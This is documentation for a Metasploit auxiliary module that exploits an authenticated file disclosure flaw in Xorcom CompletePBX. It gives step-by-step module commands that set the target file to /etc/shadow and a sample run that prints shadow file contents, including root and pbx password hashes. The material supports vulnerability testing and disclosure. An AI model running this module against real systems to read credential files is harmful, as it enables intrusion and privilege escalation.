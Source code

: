 ## Vulnerable Application

This Metasploit module exploits an **Authenticated File Disclosure** vulnerability in **Xorcom CompletePBX <= 5.2.35**.
The issue arises due to improper handling of user-supplied input
in the **core download functionality**, allowing an attacker to read arbitrary files on the system with **root privileges**.

### Setup

Download the ova file here: [](https://archive.org/details/completepbx-5-2-27-vuln)

## Verification Steps

1. Deploy a vulnerable instance of **Xorcom CompletePBX <= 5.2.35**.
2. Launch **Metasploit Framework**.
3. Use the module:
```
use auxiliary/admin/http/xorcom_completepbx_file_disclosure
```
4. Set the **target host**:
```
set RHOSTS [TARGET_IP]
```
5. Set authentication credentials:
```
set USERNAME [VALID_ADMIN_USERNAME]
set PASSWORD [VALID_ADMIN_PASSWORD]
```
6. Specify the file to read:
```
set TARGETFILE /etc/shadow
```
7. Execute the module:
```
run
```
8. If successful, the contents of the specified file will be displayed.

## Options

- `USERNAME`: Admin username for authentication.
- `PASSWORD`: Admin password for authentication.
- `TARGETFILE`: Path of the file to retrieve (Base64-encoded in request).

## Scenarios

### Successful Exploitation Against a Vulnerable CompletePBX Instance

**Setup**:

- **Target**: Xorcom CompletePBX <= 5.2.35
- **Attacker**: Metasploit Framework instance

**Steps**:

```bash
msf6 auxiliary(admin/http/xorcom_completepbx_file_disclosure) > run http://192.168.56.101/ 
[*] Running module against 192.168.56.101
[*] Attempting authentication with username: admin
[+] Authentication successful! Session ID: sid=535c401396c04a4c92266c2d1457200e6f7c391a
[*] Attempting to read file: /etc/shadow (Encoded as: ,L2V0Yy9zaGFkb3c=)
[+] Content of /etc/shadow:
root:$y$j9T$/vXScZij/ykAtLtP9H1nQ/$KK43hfpOrxdZwAZljjvS5dnF0ipg8NqpCOj9gbLJ9OA:19829:0:99999:7:::
daemon:*:19829:0:99999:7:::
bin:*:19829:0:99999:7:::
sys:*:19829:0:99999:7:::
sync:*:19829:0:99999:7:::
games:*:19829:0:99999:7:::
man:*:19829:0:99999:7:::
lp:*:19829:0:99999:7:::
mail:*:19829:0:99999:7:::
news:*:19829:0:99999:7:::
uucp:*:19829:0:99999:7:::
proxy:*:19829:0:99999:7:::
www-data:*:19829:0:99999:7:::
backup:*:19829:0:99999:7:::
list:*:19829:0:99999:7:::
irc:*:19829:0:99999:7:::
_apt:*:19829:0:99999:7:::
nobody:*:19829:0:99999:7:::
systemd-network:!*:19829::::::
systemd-timesync:!*:19829::::::
messagebus:!:19829::::::
avahi-autoipd:!:19829::::::
sshd:!:19829::::::
pbx:$y$j9T$u6FpdD4iJVvFEqtUSAoFP/$P5iBn5ljpYEwcuXj4F9n6SBlMgWyxjqBDK82ija9Te5:19829:0:99999:7:::
mysql:!:19829::::::
postfix:!:19829::::::
tcpdump:!:19829::::::
Debian-snmp:!:19829::::::
_chrony:!:19829::::::
dnsmasq:!:19829::::::
polkitd:!*:19829::::::
asterisk:!:19829::::::
cc-cloud-rec:!:19829::::::
<br />                                                                                    <b>Fatal error</b>:  Uncaught TypeError: proc_close(): supplied resource is not a valid process resource in /usr/share/ombutel/www/includes/helper.php:61
Stack trace:
#0 /usr/share/ombutel/www/includes/helper.php(61): proc_close()
#1 [internal function]: ombutel\helper::ombutel\{closure}()                               #2 {main}                                                                                   thrown in <b>/usr/share/ombutel/www/includes/helper.php</b> on line <b>61</b><br />

[*] Auxiliary module execution completed
```

### Impact

- This vulnerability grants **full read access to system files as root**.
- Attackers can retrieve **hashed passwords, SSH keys, and configuration files**,
leading to **privilege escalation** and potential full system compromise.

This module is designed to **demonstrate and automate** the exploitation of this issue using the Metasploit framework.
